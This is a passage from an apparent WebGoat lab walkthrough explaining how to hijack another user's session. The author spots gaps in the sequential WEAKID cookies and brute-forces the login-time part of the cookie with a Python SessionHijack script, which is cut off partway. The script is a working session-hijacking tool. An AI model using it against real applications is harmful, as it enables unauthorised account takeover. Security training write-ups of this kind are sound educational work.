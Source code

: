 So our script here generates a bunch of requests and checks the cookies for sequentiality. If we find a cookie that is non-sequential to the last cookie that was generated, we have found an open session for another user! Let's run the script and see what we find:

<img src="{{ site.baseurl }}/images/webgoat/2017-02-01-webgoat_part_18/open-session-brute-force.jpg">

Boom! We've got another user session. So we have the first part of the cookie, but not the second (the time of login). However, we know that the open session is going to be between two of our requested sessions. So we can grab the time from the cookie before and after the open session to find our window, and then brute-force the login time for the open session. Let's update our brute-force session hijacker to find the second half of the open session's cookie:

{% highlight python %}
import sys
import requests

class SessionHijack:
	def __init__(self, attack_url, current_webgoat_cookie):
		self.attack_url = attack_url
		self.current_webgoat_cookie= current_webgoat_cookie
		self.headers = {"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"}
		self.open_session_number = None
		self.open_session_previous_login = None
		self.open_session_next_login = None

	def find_open_session(self):
		print ("[*] Attempting to find open session")
		session_found = False
		previous_session_cookie = None
		cookies = dict(
				JSESSIONID=self.current_webgoat_cookie,
				acopendivids="swingset,jotto,phpbb2,redmine",
				acgroupswithpersist="nada"
			)
		while not session_found:
			r = requests.get(self.attack_url, headers=self.headers,cookies=cookies)
			current_session_cookie = r.cookies.get_dict()["WEAKID"]
			current_session_number = int(current_session_cookie.split("-")[0])
			print ("[-] Checking session: {}".format(current_session_cookie))
			if previous_session_cookie is None:
				previous_session_cookie = current_session_cookie
			elif (current_session_number - int(previous_session_cookie.split("-")[0])) != 1:
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				print ("[+] Found open session: {}".format(current_session_number - 1))
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				self.open_session_number = current_session_number - 1
				self.open_session_previous_login = int(previous_session_cookie.split("-")[1])
				self.open_session_next_login = int(current_session_cookie.split("-")[1])
				session_found = True
			else:
				previous_session_cookie = current_session_cookie

	def brute_force_cookie(self):
		print ("[*] Attempting to brute-force session login time for\n[*]\t session: {} between {} and {}".format(
			self.open_session_number,
			self.open_session_previous_login, 
			self.open_session_next_login))
		attempts = 0
		logged_in = False
		login_time_guess = self.open_session_next_login
		while not logged_in and login_time_guess > self.open_session_previous_login - 1:
			attempts += 1
			reformed_id_guess = "{}-{}".format(self.open_session_number, login_time_guess)
			params = {"Username":"user","Password":"user","WEAKID":reformed_id_guess}